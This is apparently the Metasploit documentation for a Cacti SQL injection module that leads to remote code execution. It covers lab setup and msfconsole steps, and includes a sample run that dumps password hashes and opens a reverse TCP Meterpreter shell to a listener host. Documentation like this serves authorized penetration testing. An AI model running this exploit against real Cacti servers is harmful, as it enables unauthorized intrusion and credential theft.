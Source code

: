 ## Vulnerable Application

This module exploits a SQL injection vulnerability in Cacti 1.2.12 and before.
An admin can exploit the filter variable within `color.php` to pull arbitrary
values as well as conduct stacked queries. With stacked queries, the
`path_php_binary` value is changed within the settings table to a payload,
and an update is called to execute the payload.

After calling the payload, the value is reset. This has to be done from
a new login session as any requests with the already logged in cookie
will timeout.

### Install

### Docker

```
git clone https://github.com/scline/docker-cacti.git
cd docker-cacti

rm -rf cacti
git checkout 1.2.11 -- cacti
cp ./docker-compose/cacti_testing.yml ./docker-compose.yml
sudo docker-compose up
```

Navigate to `localhost:80` and login with `admin:admin` and run through the install steps.

### Ubuntu

As of the writing of this module, Ubuntu's 12.04 repo had cacti as
1.2.10, so a simple `apt-get install cacti` will install a vulnerable
version.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/unix/http/cacti_filter_sqli_rce`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### CREDS

This option will dump usernames and passwords from cacti and database them. Defaults to `true`

## Scenarios

### Cacti 1.2.10 on Ubuntu 20.04

```
[*] Processing cacti.rb for ERB directives.
resource (cacti.rb)> use modules/exploits/unix/http/cacti_filter_sqli_rce
[*] Using configured payload php/meterpreter/reverse_tcp
resource (cacti.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (cacti.rb)> set verbose true
verbose => true
resource (cacti.rb)> set password cacti
password => cacti
resource (cacti.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (cacti.rb)> run
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Grabbing CSRF
[+] CSRF: sid:68e686c74fdfc4c04ed024ac27aba1d4815d5ad7,1621164610
[*] Attempting login
[*] Dumping creds
[+] Username: admin, Password Hash: $2y$10$fz.rRKSZPUMPccWOuCtWiO3csioHb8L7319uKAiMXZez2/HtLSg4q
[+] Username: guest, Password Hash: 43e9a4ab75570f5b
[*] Backing-up path_php_binary value
[+] path_php_binary: /usr/bin/php
[*] Uploading payload
[+] Executing Payload
[*] Sending stage (39282 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49470) at 2021-05-16 07:30:11 -0400
[*] Cleaning up environment
[*] Grabbing CSRF
[+] CSRF: sid:e17aa4e5f4aa6d4c189cea4b7f0539123f4b5439,1621164632
[*] Attempting login
[*] Resetting DB Value

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu2004
OS          : Linux ubuntu2004 5.4.0-31-generic #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020 x86_64
Meterpreter : php/linux
```
